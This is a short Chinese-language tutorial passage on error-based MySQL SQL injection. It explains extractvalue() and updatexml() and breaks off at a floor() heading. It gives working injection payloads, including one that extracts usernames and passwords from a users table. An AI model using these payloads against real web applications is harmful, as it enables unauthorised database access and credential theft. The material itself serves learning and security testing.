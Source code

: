 #### [1]extractValue()

extractvalue()用来查询xml里面的内容

查询作者是谁:

```sql
select extractvalue(doc,'/book/author/surname')from xml;
select extractvalue(列名,'路径')from xml;
可以将错误的路径内容会先出来
```

```sql
select extractvalue(doc,concat(0x7e,(select database())))from xml;
```

注入语句：

```sql
?id=100 ' union select 1,extractvalue(doc,concat(0x7e,(select database())))from xml,3--+
or
?id=100 ' and 1=extractvalue(doc,concat(0x7e,(select database())))from xml--+
```

只能显示32个字符串

使用函数substring

```sql
?id=100 'union select 1,extractvalue(doc,concat(0x7e,substring((select group_concat(username,password)from users),1[第几个字符开始显示],30[显示30个字符]))),3--+
```

#### [2]updatexml()

updatexml(XML_document,XPath_string,new_value)包含三个参数

第一个参数：

XML_document是string格式，为XML文档对象的名称，例如Doc

第二个参数：

XPath_string是路径，XPath格式的字符串

第三个参数：

new_value，string格式，替换查找到的符合条件的数据

报错原理

同extractvalue( ),输入错误的第二个参数，即更改路径的符号。

```
1" and 1=1 --+
1" and 1=updatexml(1,concat('~',(select database())),3) --+
```

#### [3]floor()

涉及到的函数
